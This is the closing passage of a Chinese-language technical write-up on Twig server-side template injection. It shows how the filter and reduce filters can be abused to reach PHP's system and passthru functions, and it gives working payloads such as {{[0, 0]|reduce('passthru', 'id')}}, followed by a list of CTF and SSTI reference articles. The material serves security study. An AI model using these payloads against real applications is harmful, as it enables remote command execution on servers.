{{["id"]|filter('system')}}
```

#### reduce

```php
function twig_array_reduce($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);
}
```

> array_reduce ( array `$array` , [callable](https://xz.aliyun.com/t/language.types.callable.html) `$callback` [, [mixed](https://xz.aliyun.com/t/language.pseudo-types.html#language.types.mixed) `$initial` = **`NULL`** ] ) : [mixed](https://xz.aliyun.com/t/language.pseudo-types.html#language.types.mixed)

刚开始还是像前面那样构造成了

```twig
{{["id", 0]|reduce("passthru")}}
```

但是会发现没有执行成功，是因为第一次调用的是`passthru($initial, "id")`, `$initial` 是null，所以会失败。所以把`$initial` 赋值成要执行的命令即可

```twig
{{[0, 0]|reduce("passthru", "id")}}
```

不知道有没有自动化fuzz，把php允许有callback参数的所有函数找出来，如果有师傅研究过，欢迎来交流。


# 参考资料

- [[CISCN2019 华东南赛区]Web11 -- Smarty SSTI](https://mayi077.gitee.io/2020/04/27/CISCN2019-%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA-Web11-Smarty-SSTI/)
- [Smarty SSTI](https://www.freebuf.com/column/219913.html)
- [由一道CTF赛题分析Twig SSTI利用方式](https://forum.90sec.com/t/topic/1170)
-  [SSTI-smarty](http://www.r0bots.cc/index.php/2019/08/17/111.html)
- [TWIG 3.x with symfony SSTI](https://xz.aliyun.com/t/7507)
- [TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518)
- [twig symfony 文档](https://twig.symfony.com/doc/2.x/)

